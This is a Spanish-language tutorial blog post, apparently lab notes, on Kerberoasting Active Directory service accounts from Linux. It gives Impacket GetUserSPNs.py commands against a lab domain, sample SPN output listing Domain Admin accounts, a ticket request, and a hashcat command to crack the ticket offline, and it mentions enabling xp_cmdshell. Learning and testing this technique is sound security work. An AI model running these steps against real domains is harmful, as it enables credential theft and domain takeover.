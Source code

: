 ```yaml
---
title: Kerberoasting from a Linux Host
published: true
---
```



![Imagen_Kerberos](/assets/kerberos.png)

# Kerberos

## ¿qué es Kerberos?:
Es una técnica de movimiento lateral / escalada de privilegios en el entorno de Directorio Activo. Tiene como objetivo la  cuentas “Service Principal Names”. Los SPN son identificadores únicos que utiliza kerberos para mapear un servicio en una cuenta de servicio en cuyo continente corre el servicio. Las cuentas de dominio suelen utilizarse para saltarse las limitaciones de autenticación de cuentas built-in como “NT AUTHORITY\LOCAL SERVICE”. Cualquier usuario de dominio puede solicitar un ticket kerberos para una cuenta de servicio del mismo dominio. Esto también está permitido entre árboles de dependencia en caso de que la autenticación esté permitida en el árbol de confianza. Lo único que necesitamos para realizar un ataque kerberoasting es una contraseña en texto claro ( o un hash NTLM), una shell en el contexto de un usuario de dominio o acceso a nivel de sistema a un host unido a dominio. Las cuentas de dominio que corren servicios son a menudo administradores locales, si no cuentas de altos privilegios de dominio. Debido a la naturaleza distribuida de los sistemas, interacción de servicios y transferencias de datos asociadas, las cuentas de servicio pueden ser ser administradores privilegiados en múltiples servidores a lo largo de la compañía. Muchos servicios requieren elevados privilegios en el sistema, por lo que las cuentas de servicio se suelen asociar a los grupos de privilegiados como Domain Admins. Es muy común encontrar con SPNs asociados a cuentas de privilegios elevados en un entorno Windows. Conseguir un ticket kerberos para una cuenta con SPN no significa per se que tengamos permiso para ejecutar comandos en el contexto de esta cuenta. Sin embargo el ticket TGS-REP está cifrado con el hash NTLM de la cuenta por lo que la contraseña en texto claro puede ser obtenida forzándolo a un ataque de fuerza bruta off-line.
Las cuentas de servicio suelen tener contraseñas débiles o reutilizadas para simplificar la tarea del administrador y en algunas ocasiones la contraseña es la misma que el nombre de usuario. Si la contraseña para una cuenta de dominio de SQL Service es craqueada, es probable que te puedas hacer administrador local en múltiples servidores o incluso el Domain Admin. Incluso si mediante kerberoasting conseguimos un ticket con un nivel de cuenta de usuario poco privilegiada, podemos utilizarla para solicitar tickets de servicio del servicio especificado en el SPN. Por ejemplo, si el SPN es de MSSQL/SRV01, podemos acceder al MSSQL como sys admin, habilitar xp_cmdshell extended procedure y obtener la capacidad de ejecución de código en el servidor SQL.
 

## A tener en cuenta durante el ataque:
Obtener un ticket TGS no te garantiza obtener una lista de credenciales válidas, el ticket debe ser crackeado off-line para obtener la contraseña en texto claro. Los tickets TGS llevan más tiempo de crackeo que otros tickets como los NTLM por lo que a menudo , a no ser que tenga una política débil de contraseñas puede resultar muy difícil o imposible crackear una contraseña con una plataforma normal de crackeo

## Desarrollo del ataque:
Los ataques de kerberoasting son fáciles de ejecutar con herramientas y scripts que lo automatizan. Podemos realizar estos ataques tanto desde un host linux como windows. Primero lo veremos desde un host Linux y de una manera semi-automatizada.

**Prerequisito**
Prerrequisitos: Una shell en un contexto de usuario de dominio o una cuenta como SYSTEM. Debemos saber también que host el Domain Controller.
Lo primero que necesitamos es el se de herramientas de Impacket.
```bash
sudo python3 -m pip install .
```

**Obtener lista de SPNs en el dominio**
Podemos obtener una lista de los SPNs presentes en el dominio. Para ello necesitaremos una lista de **credenciales válidas** y la **dirección del Domain Controller**. Podemos autenticarnos contra el Domain Controller con una contraseña en texto claro, un hash NTLM o un ticket Kerberos. Para nuestro caso utilizaremos el método de la contraseña. Con el siguiente comando podemos hacer un prompt de las credenciales y conseguir una lista de SPNs de una manera agradable. En el prompt de abajo podemos ver un ejemplo. Si podemos conseguir alguno de estos tickets y crackearlo podría llevar al compromiso del dominio. Es igualmente necesario que investiguemos todos los diferentes usuarios que aparecen porque no sabemos quien podría ser más fáciles de crackear.

```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never> 
```

##Obtener el Ticket:
Una vez hemos visto los tickets que hay disponibles podemos hacer un request de cualquiera de ellos, aunque como ya hemos dicho sería necesario hacerlo de todos porque no sabemos quién podría tener una contraseña débil. 
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```
Con el ticket final en nuestro poder solo tenemos que crackearlo en busca de la contraseña en texto plano, como este ejemplo es de un laboratorio sencillito la contraseña está dentro del diccionario "rockyou.txt". Para casos profesionales tendríamos que generar un diccionario personalizado, pero eso lo subiré en otro post.

##Crackeo del Ticket:
```bash
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

```Python 
Happy Hacking
```

```Python 
bl4sdl3zo@proton.me
```
